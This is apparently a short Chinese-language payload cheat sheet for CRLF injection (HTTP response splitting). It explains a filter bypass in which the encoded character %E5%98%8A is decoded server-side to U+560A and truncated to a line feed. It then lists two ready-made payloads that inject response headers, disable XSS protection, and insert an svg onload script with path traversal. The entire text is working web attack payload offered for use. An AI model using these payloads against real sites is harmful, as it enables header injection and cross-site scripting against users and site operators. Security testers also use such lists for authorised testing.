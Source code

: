 # clrf分隔符
%E5%98%8A%E5%98%8D ##比如说用户提交的是：%E5%98%8A，这个不包含换行符所以不会被拦截，服务器接收到后将其转成原始的unicode码：U+560A，最后取了0A，这时候就变成换行符了。
%0A%0D

# clrf成熟的payload
* %0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e
* %0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
